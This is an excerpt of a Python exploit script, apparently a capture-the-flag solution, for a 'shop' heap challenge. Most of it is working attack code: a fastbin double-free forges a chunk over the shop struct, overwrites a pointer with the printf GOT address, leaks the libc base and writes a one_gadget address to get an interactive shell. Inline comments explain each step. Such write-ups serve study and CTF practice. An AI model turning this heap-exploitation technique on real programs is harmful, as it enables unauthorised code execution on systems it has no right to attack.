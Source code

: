 ```fgets_eat(shop->counter[0]->name, 8);``` to overwrite ```counter[0]``` with our target address, then ```shop->counter[0]->price = get();``` gives us arbitrary write. 
        malloc will return &shop
        overwite counter[0] with got entry
        counter[0] is dereferenced to set the price variable
    '''
    '''
    set customers to 0x21 so we can control more of the array,
    and so that it is a valid chunk
    '''
    shop = 0x6030e0 #address of shop struct
    p_plt = 0x603048 # &printf.got
    p_off = 0x55800 # offset from libc base to printf
    one_gadget = 0x45216 # magic one gadget

    A = alloc(p, "", 16)
    B = alloc(p, "", 17)
    free(p, A) # A->bk NULL, A = fastbin freelist top
    free(p, B) # B->bk = A, B = fastbin freelist top
    free(p, A) # A->bk = B, A = fastbin freelist top
    # overwrite A->bk with fake chunk before shop. (set shop->price and fchunk size)
    C = alloc(p, "", int(shop-0x8))

    D = alloc(p, "", 0) # next malloc returns B
    E = alloc(p, "", 0) # this alloc returns A
    # Next alloc returns shop+0x8. Overwrite customers with shop-0x8 and counter[0] with got addr
    F = alloc(p, struct.pack("L", p_plt), int(shop-0x8))

    # Libc leak from dereferencing overwritten counter[0]
    libc = leak(p, 0) - p_off
    log.info('libc base is at: ' + hex(libc))
    # Next step is redoing step 1) except now the forged chunk->next will point to shop-0x8
    # Then we will NULL out counter[0]
    # The following address will be shop-0x8 which means counter[0]->name will overwrite counter[0]
    # And we can get an arbitrary write primitive

    #you know the drill
    free(p, D) # D->bk NULL, D fastbin freelist head
    free(p, E) # E->bk NULL, E fastbin freelist head
    free(p, D) # D->bk = E, D fastbin freelist head
    # overwrite D->bk with fake chunk before shop
    G = alloc(p, "", int(shop-0x8))

    H = alloc(p, "", 0) # this malloc returns E
    I = alloc(p, "", 0) # this malloc returns D
    J = alloc(p, struct.pack("L", 0), 0) # this malloc returns shop+0x8
    K = alloc(p, struct.pack("L", p_plt), libc + one_gadget)

    p.interactive()

break_heap()
```

